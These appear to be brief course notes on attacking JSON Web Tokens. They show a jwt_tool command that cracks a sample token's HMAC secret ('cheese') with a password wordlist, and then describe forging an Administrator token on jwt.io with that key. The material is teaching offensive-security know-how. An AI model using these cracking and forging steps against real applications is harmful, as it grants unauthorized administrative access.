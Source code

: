 ┌──(kali㉿kali)-[/opt/jwt_tool]
└─$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw --crack -d /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt

python3 jwt_tool.py [JWT] -flags

instructor tells us we can try to crack an hmac-sha token, which can come useful, so in the video we try to crack 

```bash
 python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw --crack -d /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt
```

we get cheese is the correct key

we go to jwt.io

we paste in the JWT, we modify the name to Administrator, and then in the HMACSHA256 we can modify the "your-256-bit-secret" and we can enter the word cheese since we cracked it
and it will be a valid token since we cracked it.

JWT Attack playbook
https://github.com/ticarpi/jwt_tool

